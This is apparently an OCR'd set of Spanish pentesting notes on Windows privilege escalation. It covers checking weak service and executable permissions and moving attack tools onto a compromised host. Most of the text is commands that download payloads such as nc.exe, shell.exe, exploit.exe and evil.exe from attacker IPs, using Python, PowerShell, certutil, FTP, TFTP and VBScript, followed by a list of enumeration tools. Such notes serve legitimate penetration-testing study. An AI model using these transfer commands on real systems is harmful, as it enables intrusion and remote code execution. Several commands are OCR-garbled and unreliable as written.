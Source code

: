 
### Permisos débiles en servicios:

- ﻿﻿Existencia de servicios con permisos modificables
- `Get-ServiteAd-Name Vuln-Service-2 | select -expandproperty Access`
  - `ServiceRights : ChangeConfig, Start, Stop`
  - `AccessControlType : AccessAllowed`
  - `IdentityReference : NT AUTHORITY\ Authenticated Users`
  - `Isinherited : False`
  - `InheritanceFlags : None`
  - `PropagationFlags : None`

- Permisos en ficheros ejecutables:
  - Existencia de binaries que pueden ser accesibles por cualquier y impersonalizados.
  - Idem para programas de auto-arranque

- Si tiene Python, se podía transferir `wget.exe`:

```pwsh
c:\Python27\python.exe -c "exec(\"import
	"urllib:urllib.urlretrieve('http://10.10.0.98/wget.exe',
	'C:\wmpub\wmiislog\wget.exe'\")"
```

- Si tiene powershell (> Windows Vista)
  - `powershell System.Net.WebClient.DownloadFile(http://10.10.10.98/AppCompatCache.exe', 'C:\Users\Antonio\Desktop\AppCompatCache.exe')"`
  - `﻿﻿powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile <file>'`

Si no tiene powershell ni python — **LOLBAS**:

- `﻿﻿certutil -urlcache -spit -f "http://10.10.14.63/shell.exe" "C:\Users\security\shell.exe"`

Mediante **FTP**:

- Instalar un FTP en la máquina atacante (pure-ftpd)
- Desde la máquina víctima:
  - `C:\wmpub>echo open 10.10.10.63 21 > esftp.txt`
  - `C:\wmpub>echo USER no0b noob >> esftp.txt`
  - `C:\wmpub>echo bin >> esftp.txt`
  - `C:\wmpub> echo GET exploit. exe >> esftp.txt`
  - `C:\wmpub>echo bye >> esftp.txt`
  - `C:\wmpub>ftp -v -n -s:esftp.txt)`

- ﻿﻿Mediante TFTP (port 69/UDP):
  - ﻿﻿TFTP: Se ejecuta bajo UDP. Por defecto, viene instalado en Windows XP and 2003 (windows server). Mientras. que en Windows 7 y Windows server 2008, no viene por defecto y requiere que se añada manualmente.
  - ﻿﻿Desde la Kali:
    - `mkdir /tftp`
    - `root@kali:~# atftod --daemon --port 69 /tfto`
    - `root@kali:~# cp /usr/share/windows-binaries/nc.exe /tftp/`
    - Desde Windows: `tftp -i 10.10.10.63 get nc.exe`
- Para sistemas obsoletos:
  - `﻿﻿Debug.exe`: Para máquinas 32 bits (No recomendada).
  - `﻿﻿VBScript`: En Windows XP y WinServ2k3 y Powershell (desde windows 7 y winServ2k9 en adelante). Similar a la FTP.
  - `c﻿escript wget.vbs http://10.10.10.5/evil.exe`
- Herramientas de enumeración interna
  - ﻿﻿PowerUp - https://github.com/PowerShellMafia/PowerSploit
  - ﻿﻿Sherlock (deprecated) - https://github.com/rasta-mouse/Sherlock
  - ﻿﻿Windows-Exploit-Suggester - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
  - ﻿﻿Windows Enum - https://github.com/absolomb/WindowsEnum
  - [BEST] **﻿﻿WinPeas - https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe**
  - [BEST] **PrivescCheck - https://github.com/itm4n/PrivescCheck**
  - Watson - https://github.com/rasta-mouse/Watson
  - ﻿﻿Seatbelt - https://github.com/GhostPack/Seatbelt
  - ﻿﻿Powerless (OSCP Legacy) - https://github.com/gladiatx0r/Powerless
